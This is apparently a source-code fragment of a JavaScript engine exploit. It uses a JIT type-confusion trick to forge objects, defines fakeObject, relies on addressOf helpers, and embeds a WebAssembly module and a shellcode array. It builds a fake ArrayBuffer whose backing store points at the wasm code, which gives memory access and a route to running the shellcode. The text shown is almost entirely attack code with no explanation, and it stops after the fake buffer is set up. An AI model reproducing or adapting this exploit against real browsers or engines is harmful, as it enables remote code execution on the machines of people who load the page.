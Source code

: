 ```

function fakeObject_opt(dict,f,addr) `{`
   var x = dict.b;
   f(dict);
   dict.b = addr;
   return dict;
`}`

var obj = `{``}`;
var obj_dict = `{`b:2.2`}`;

for (var i=0;i&lt;0x20000;i++) `{`
   fakeObject_opt(obj_dict,(o)=&gt;1,1.1);
   fakeObject_opt(obj_dict,(o)=&gt;2,2.2);
   fakeObject_opt(obj_dict,(o)=&gt;3,3.3);
`}`

function fakeObject(addr_h,addr_l) `{`
   var obj1 = fakeObject_opt(obj_dict,(o)=&gt;`{`o.b = obj;`}`,p64f(addr_l+0x1,addr_h)).b;
   return obj1;
`}`

const wasmCode = new Uint8Array([0x00,0x61,0x73,0x6D,0x01,0x00,0x00,0x00,0x01,0x85,0x80,0x80,0x80,0x00,0x01,0x60,0x00,0x01,0x7F,0x03,0x82,0x80,0x80,0x80,0x00,0x01,0x00,0x04,0x84,0x80,0x80,0x80,0x00,0x01,0x70,0x00,0x00,0x05,0x83,0x80,0x80,0x80,0x00,0x01,0x00,0x01,0x06,0x81,0x80,0x80,0x80,0x00,0x00,0x07,0x91,0x80,0x80,0x80,0x00,0x02,0x06,0x6D,0x65,0x6D,0x6F,0x72,0x79,0x02,0x00,0x04,0x6D,0x61,0x69,0x6E,0x00,0x00,0x0A,0x8A,0x80,0x80,0x80,0x00,0x01,0x84,0x80,0x80,0x80,0x00,0x00,0x41,0x2A,0x0B]);
const shellcode = new Uint32Array([186,114176,46071808,3087007744,41,2303198479,3091735556,487129090,16777343,608471368,1153910792,4132,2370306048,1208493172,3122936971,16,10936,1208291072,1210334347,50887,565706752,251658240,1015760901,3334948900,1,8632,1208291072,1210334347,181959,565706752,251658240,800606213,795765090,1207986291,1210320009,1210334349,50887,3343384576,194,3913728,84869120]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule);
var func = wasmInstance.exports.main;

var faker = [0.0,1.1,2.2,3.3,4.4,5.5,6.6,7.7,8.8,9.9,10.10,11.11,12.12];
var d = addressOf(faker);
var faker_addr_h = d[0];
var faker_addr_l = d[1];

print('faker_addr='+faker_addr_h.toString(16) + faker_addr_l.toString(16));

d = addressOf2(func);
var wasm_shellcode_ptr_addr_h = d[0];
var wasm_shellcode_ptr_addr_l = d[1] + 0x38;
print('wasm_shellcode_ptr=' + wasm_shellcode_ptr_addr_h.toString(16) + wasm_shellcode_ptr_addr_l.toString(16));

var element_addr_l = faker_addr_l + 0x40;
print('element_addr=' + faker_addr_h.toString(16) + element_addr_l.toString(16));

//fake a ArrayBuffer's Map
faker[0] = p64f(0,0);
faker[1] = p64f(0x0f00000a,0x001900c6);
faker[2] = p64f(0x082003ff,0);
faker[3] = p64f(0,0);

//faker a ArrayBuffer
faker[4] = p64f(element_addr_l+0x1,faker_addr_h); //map
faker[5] = p64f(0,0); //properties
faker[6] = p64f(0,0); //elements
faker[7] = p64f(0,0x100); //length
faker[8] = p64f(wasm_shellcode_ptr_addr_l,wasm_shellcode_ptr_addr_h);
```